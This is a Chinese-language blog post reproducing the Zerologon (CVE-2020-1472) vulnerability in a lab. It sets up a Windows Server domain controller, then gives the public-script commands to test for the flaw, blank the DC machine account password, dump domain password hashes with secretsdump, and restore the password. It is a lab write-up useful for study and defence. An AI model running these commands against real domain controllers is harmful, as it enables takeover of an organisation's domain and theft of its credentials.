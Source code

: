 ```yaml
---
layout:     post
title:      "利用CVE-2020-1472(Zerologin)漏洞远程获取域控服务器密码hash"
date:       2020-11-27
author:     "Ambi9u0us"
catalog: true
tags:
    - 渗透
    - 漏洞
    - 域控
typora-root-url: ..
---
```


# 利用CVE-2020-1472(Zerologin)漏洞远程获取域控服务器密码hash

本文针对之前微软曝光的CVE-2020-1472漏洞即ZeroLogin漏洞进行复现，基本还原了该漏洞的实现过程。

## 0x01 搭建域控服务器

本文采用windows server 2012作为域控服务器系统，在VMware上进行搭建，在VMware上安装好虚拟机后，搭建域控服务器流程如下：

首先将虚拟机联网方式设置为NAT模式，然后给虚拟机设置一个固定的IP，因为后面添加域控服务时是与IP绑定的，后面IP如果变化会导致域控服务器无法访问

![image-20201205160747989](/img/in-post/image-20201205160747989.png)

然后选择`添加角色和功能`，安装`AD轻型目录服务`和`AD域服务`

![image-20201204183954811](/img/in-post/image-20201204183954811.png)

一直点击下一步，直到出现安装按钮，点击安装。

点击`AD DS`，点击更多，选择`将此服务器提升为域控服务器`

![image-20201204190137084](/img/in-post/image-20201204190137084.png)

选择`添加新林`，根据自己需要设置域名

![image-20201204190559472](/img/in-post/image-20201204190559472.png)

然后设置密码时要注意密码要具有一定的复杂度

![image-20201204190906974](/img/in-post/image-20201204190906974.png)

一直点击下一步，如果出现了下面的问题，则是因为没有设置Administrator账户密码的原因，设置一下密码就可以了

![image-20201204191520338](/img/in-post/image-20201204191520338.png)

安装完成后，重新启动虚拟机，域控服务器的测试环境就搭建完毕。

![image-20201204192634257](/img/in-post/image-20201204192634257.png)

## 0x02 漏洞测试

在进行测试之前，要去[SecureAuthCorp](https://github.com/SecureAuthCorp)/**[impacket](https://github.com/SecureAuthCorp/impacket)**项目自行下载impact后安装，直接使用pip下载后面执行脚本会出错

首先使用[SecuraBV](https://github.com/SecuraBV)/**[CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)**的zerologon_tester.py脚本对漏洞进行测试，执行命令：

`python zerologon_tester.py [NetBios Name] IP `

其中，主机名可以通过在命令行窗口执行net group获得，IP为对应的域控服务器IP，如果目标域控服务器无该漏洞，会得到如下结果：

![image-20201204204835415](/img/in-post/image-20201204204835415.png)

如果目标服务器有漏洞，结果如下：

![image-20201204215910021](/img/in-post/image-20201204215910021.png)

## 0x03 实现远程获取域控服务器密码hash

首先要分别从[risksense](https://github.com/risksense)/**[zerologon](https://github.com/risksense/zerologon)**项目和[k8gege](https://github.com/k8gege)/**[CVE-2020-1472-EXP](https://github.com/k8gege/CVE-2020-1472-EXP)**项目获取到set_empty_pw.py、secretsdump.py和reinstall_original_pw.py，然后进行如下操作：

### 清空目标域控服务器主机名对应的用户的密码

输入命令`python set_empty_pw.py [Name] [IP]`，结果如下

![image-20201205173127624](/img/in-post/image-20201205173127624.png)

### 远程获取目标域控服务器的密码hash方法一

输入命令`python secretsdump.py [Name]$@[IP] -just-dc -no-pass`，如下所示：

![image-20201205173226098](/img/in-post/image-20201205173226098.png)

### 远程获取目标域控服务器的原始NT hash值方法二

输入`python secretsdump.py -sam sam.save -system system.save -security security.save [Name]$@[IP]`

![image-20201205173707166](/img/in-post/image-20201205173707166.png)

这里会提示要输入密码，不过由于之前已经将密码置为空，因此直接点击回车即可

### 将目标服务器密码还原

输入`python reinstall_original_pw.py [Name] [IP] [hash]`，这里的hash值应该为前面获取到的对应主机名的hash

![image-20201205175150903](/img/in-post/image-20201205175150903.png)

### 测试密码还原情况

此时，再使用前面的方法获取目标域控服务器的hash值，发现获取失败

![image-20201205175209579](/img/in-post/image-20201205175209579.png)

##  后记

本文主要介绍了如何利用CVE-2020-1472漏洞远程获取目标域控服务器的密码hash值并进行密码还原，基本梳理清楚了zerologin漏洞的利用过程。

## Reference

[Active Directory虚拟机搭建域控服务器环境](https://www.cnblogs.com/IFire47/p/6683435.html)